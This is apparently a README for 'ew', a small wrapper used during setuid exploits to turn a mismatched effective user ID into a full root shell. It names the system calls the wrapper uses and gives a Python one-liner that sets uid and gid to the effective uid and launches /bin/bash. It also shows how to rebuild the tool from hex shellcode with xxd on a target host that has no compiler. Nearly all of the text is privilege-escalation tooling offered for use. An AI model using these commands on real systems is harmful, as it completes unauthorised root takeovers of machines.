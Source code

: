 # ew #

_ew_ is a simple wrapper program for circumventing ruid / euid mistmatches during a suid exploit. It's so simple, the code is really self documenting. 

	geteuid();
	setreuid();
	setregid();
	execve();

Another quick method if python is available would be:

	/usr/bin/python -c 'import os; os.setuid(os.geteuid()); os.setgid(os.geteuid()); os.system("/bin/bash")'

Enjoy!

## ew shellcode ##

The files with shellcode are the same ew, but were built with '-Os' and then stripped, before being run through xxd -p. This is useful when the target host has xxd but no compiler.

	cat ew-x64-shellcode.hex | xxd -p -r > ew
